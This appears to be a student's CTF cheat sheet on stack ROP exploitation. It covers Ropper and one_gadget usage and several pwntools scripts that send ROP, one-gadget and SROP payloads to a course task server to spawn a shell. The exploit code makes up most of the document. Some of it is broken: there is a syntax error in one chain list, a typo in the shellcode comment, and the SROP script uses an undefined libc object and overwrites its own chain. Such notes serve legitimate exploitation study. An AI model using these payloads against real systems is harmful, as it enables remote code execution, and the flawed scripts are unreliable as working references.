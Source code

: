 # Stack ropchain

### Objdump explore elf if small ASM program given (instead of IDA)
- dump binary with:
```
objdump -M intel -d ./my_binary
objdump -M intel -D ./vuln
```

### Ropper (find gadgets):
- https://github.com/sashs/Ropper
- install ropper
```
sudo pip install capstone
sudo pip install filebytes
sudo pip install keystone-engine
pip install ropper
```
- find gadgets
```
ropper --file ./vuln
ropper --file ./vuln --search syscall
ropper --file ./vuln --inst-count 2 --type rop
ropper --file ./vuln --search "mov rdi, e?x" --inst-count 2 --type rop

ropper --file ./vuln --search "pop rdi; ret;" 

ropper --file ./vuln --semantic "rdi+=rax"
```
- find all gadgets interactively
```
ropper
file vuln
```
- exclude stuff
```
badbytes 0a
```
- find specific ones
```
search /1/ pop rdi
```
- find gadgets with ropper
```
search pop %; mov rdi, [rsp + %]; mov rax, [rsp + %];
```

### find the ONEGADGET
- if we jump to this gadget and fullfill the constraints, then we get shell directly
```
sudo gem install one_gadget
```
```
one_gadget ./libc.so.6
```


### build ropchain by hand
```python
import pwn
pwn.context.arch = 'amd64'
port = 1227
conn = pwn.remote('tasks.ws24.softsec.rub.de', port)

libc = pwn.ELF("./libc.so.6")

# set base address of libc, sothat later we get correct address directly (else we jsut get offset in libc)
libc.address = 0 # leak me somehow

offset_gets = libc.symbols['gets']
offset_system = libc.symbols['system']
offset_shell_string = next(libc.search(b'/bin/sh\x00'))


address_g01 = 0x0000000000403f62 # pop rdx; ret;
address_g02 = 0x000000000040d6c7 # lea rcx, [rdx + 0x558]; sub rax, rcx; sar rax, 2; ret;
address_g15 = 0x0000000000401010 # call rax;
address_fil = 0x00000000004011df # nop; ret;

rop_chain = [
    b'A'*24,
    pwn.p64(address_g01),
    pwn.p64(address_g02),
    b'A'*8,,
    pwn.p64(address_fil),
    pwn.p64(address_g15)
]

rop_chain = b''.join(gadget for gadget in rop_chain)

print(rop_chain.hex())
conn.sendline(rop_chain)
```


### build ropchain automatically
```python
import pwn
pwn.context.arch = 'amd64'
port = 1227
conn = pwn.remote('tasks.ws24.softsec.rub.de', port)

libc = pwn.ELF("./libc.so.6")

libc.address = 0 # leak me
rop = pwn.ROP(libc)
rop.call(rop.ret) # this is needed for aligned sothat syscall is 16 byte aligned
# call system, so jump to this address and set parameter beforehand
rop.call(libc.symbols['system'], [next(libc.search(b'/bin/sh\x00'))])

payload = b'A'*(0x28) + rop.chain()
conn.sendline(payload)
```


### Trick: If PIE disabled, we can write in well-known .bss (uninitialized global writable data) (14_boromir) (or .data)
```python
import pwn
pwn.context.arch = 'amd64'

exe = pwn.ELF("./vuln_patched")
libc = pwn.ELF("./libc.so.6")

conn = pwn.remote('tasks.ws24.softsec.rub.de', 33586)

# one_gadget ./libc.so.6
"""
0xd509f execve("/bin/sh", rbp-0x40, r13)
constraints:
  address rbp-0x38 is writable
  rdi == NULL || {"/bin/sh", rdi, NULL} is a valid argv
  [r13] == NULL || r13 == NULL || r13 is a valid envp
"""
one_gadget_offset = 0xd509f

message = conn.recvline()
printf_address = int(message[-13:-1],16)
libc_base = printf_address - libc.symbols['printf']
one_gadget = libc_base + one_gadget_offset

# we have no pie => bss is writable and at a fixed position
rbp = exe.bss(0x40)
payload = b'A'*32 + pwn.p64(rbp) + pwn.p64(one_gadget)

conn.send(payload)
conn.interactive()
```


### Sigreturn oriented programming (16 SROP)
- abuse SIGRETURN sycall, which reads stuff from the stack and puts it into the registers
- pwntools does all the heavly lifting for us:
```python
import pwn
pwn.context.arch = 'amd64'

exe = pwn.ELF("./vuln")

conn = pwn.remote('tasks.ws24.softsec.rub.de', 33595)

# Pie is off, this makes live easy :)
shell_string = next(exe.search(b'/bin/sh\x00'))

# I want to execute the following shellcode:
"""
mov rax, 59
moc rdi, 0x402029; # the address of '/bin/sh\x00'
mov rsi, 0
mov rdx, 0
syscall
"""

# found via ropper
pop_rax_gadget = 0x00000000004010b3 # pop rax; ret; 
syscall_gadget = 0x0000000000401010 # syscall;

# first we execute the syscall "SIGRETURN" (15) to setup the 4 register, then we just return to syscall again to get a shell :)

# rop.execve(next(binary.search('/bin/sh'), 0, 0))
frame = pwn.SigreturnFrame()
# do the execve syscall (this replaces this process with "bin/sh", this is a more lower level call than system() which created a new child via fork)
frame.rax = 59
frame.rdi = shell_string
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall_gadget

rop = pwn.ROP(exe)
rop.raw(pop_rax_gadget)
# do the sigreturn syscall (15) (https://syscalls.mebeim.net/?table=x86/64/x64/latest)
rop.raw(15)
rop.raw(syscall_gadget)
rop.raw(bytes(frame))

rop = pwn.ROP(libc)
rop.call(rop.ret)
rop.call(libc.symbols['system'], [next(libc.search(b'/bin/sh\x00'))])

payload = b'A' * 208 + rop.chain()

print(f'payload length: {len(payload)}')

conn.send(payload)
conn.interactive()
```


### Shadow stack (18 magic8ball)
- we cannot return as this is checked, so just use call


